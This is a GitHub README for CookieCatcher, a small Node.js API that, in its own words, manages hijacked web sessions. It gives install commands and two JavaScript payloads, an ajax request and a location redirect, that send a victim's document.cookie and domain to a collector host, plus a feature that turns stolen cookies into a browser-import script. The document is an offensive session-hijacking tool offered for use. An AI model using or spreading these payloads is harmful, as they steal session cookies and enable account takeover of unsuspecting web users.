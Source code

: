 # CookieCatcher (version. 0.0.1)
This is a mini and simple API REST for management of Web sessions that were hijacked.

### Features (that is simple)
- Capture request through GET or POST (method)
- Parse to cookies format
- Create script to import into your browser

### How to install this little devil?
```sh
$ git https://github.com/JavaGarcia/CookieCatcher.git
$ cd CookieCatcher
$ npm install
$ sudo DEBUG=APIcookies:* ./bin/www
```

### Scheme to send requests
Example with ajax (POST or GET)
```javascript
$.ajax({
        type: "POST",//or GET
        url: "http://cookieCatcher/session",//obviously change (cookieCatcher).
        data:"domain="+document.domain+"&cookie="+document.cookie,
        success: function(datos){/*if you want to show something.*/}
});
```
Normal request GET (redirect)
```javascript
document.location.href="http://cookieCatcher/session/"+document.domain+"/"+document.cookie;
```

#### Made with love in Colombia.
# License:

CookieCatcher is licensed under the GPLv3: http://www.gnu.org/licenses/gpl-3.0.html. 

